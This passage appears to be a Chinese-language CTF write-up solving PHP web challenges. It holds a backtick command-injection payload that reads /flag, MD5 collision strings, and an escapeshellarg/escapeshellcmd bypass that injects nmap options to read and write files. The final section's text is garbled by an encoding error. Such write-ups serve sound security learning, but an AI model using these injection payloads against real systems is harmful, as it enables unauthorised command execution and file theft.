 注意这段代码
```php
 echo `$cmd`;
 ```
PHP中，利用反引号可以执行 Unix 下的命令，并传回执行结果

那么接下来就是`cmd`的利用了
绕过`preg_match()`以及post传参绕过MD5强验证

```html
index.php?img=0&cmd=ca\t%20/flag
```
md5强碰撞
```text
%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

# <BUUCTF 2018>Online Tool
打开题目，得到代码
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
很显然，绕过 `escapeshellarg()` 和 `escapeshellcmd()` ,进行注入
这是个已知的漏洞	[https://paper.seebug.org/164/](https://paper.seebug.org/164/)

构造payload
```php
?host=' -iL /flag oN 1.txt '
```
# <GWCTF 2019>我有一个数据库
打开题目
>鎴戞湁涓€涓暟鎹簱锛屼絾閲岄潰浠€涔堜篃娌℃湁~
涓嶄俊浣犳壘
